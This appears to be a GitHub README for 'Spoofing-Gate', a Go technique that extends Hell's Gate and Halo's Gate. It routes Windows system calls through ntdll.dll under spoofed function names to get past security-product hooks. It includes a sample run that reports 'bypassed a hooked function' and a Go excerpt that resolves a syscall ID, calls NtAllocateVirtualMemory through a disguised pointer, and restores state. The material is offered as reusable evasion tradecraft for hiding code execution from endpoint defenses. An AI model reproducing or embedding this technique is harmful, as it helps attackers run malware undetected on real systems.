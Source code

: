 # Spoofing-Gate
(Hellsgate|Halosgate|Tartarosgate)+Spoofing-Gate. Ensures that all systemcalls go through ntdll.dll

https://github.com/timwhitez/Doge-Gabh


inspired by Recycled Gate

https://github.com/thefLink/RecycledGate



- get sysid from "X"gate

- use Spoofing-Gate to get the Spoofing funtion pointer

- call the pointer

- Recover

```
> .\SpfGate.exe
messPtr:0x7ff91ee2e570
Messed up the NTCreateThreadEx function, gl launching calc!
NtAllocateVirtualMemory|(fake)NtQueryInformationTransactionManager: 0x7ff91ee2f710
NtProtectVirtualMemory|(fake)NtEnumerateBootEntries: 0x7ff91ee2e910
You seem to have bypassed a hooked function... congrats (sys ID is: 193)
NtCreateThreadEx|(fake)NtCallbackReturn: 0x7ff91ee2ce00

```



```
//get sysid from "X"gate
alloc,e := gabh.MemHgate(str2sha1("NtAllocateVirtualMemory"),str2sha1)
	if e != nil {
		panic(e)
	}
  
var tmplist []string
tmplist = append(tmplist,[]string{"NtAllocateVirtualMemory"}...)


//use Spoofing-Gate to get the Spoofing funtion pointer
alloctmp,e := spfgate.SpfGate(alloc,tmplist)
if e != nil{
  panic(e)
}
tmplist = append(tmplist,alloctmp.Fakename)
fmt.Printf("NtAllocateVirtualMemory|(fake)")
fmt.Printf(alloctmp.Fakename)
fmt.Printf(": 0x%x\n",alloctmp.Pointer)

//call the pointer
r1, _,_ := syscall.Syscall6(
		alloctmp.Pointer, //ntallocatevirtualmemory
		6,
		handle,
		uintptr(unsafe.Pointer(&baseA)),
		0,
		uintptr(unsafe.Pointer(&regionsize)),
		uintptr(memCommit|memreserve),
		syscall.PAGE_READWRITE,
	)
	if r1 != 0{
		fmt.Printf("1 %x\n", r1)
		return
	}
	
	
//Recover
alloctmp.Recover()


```


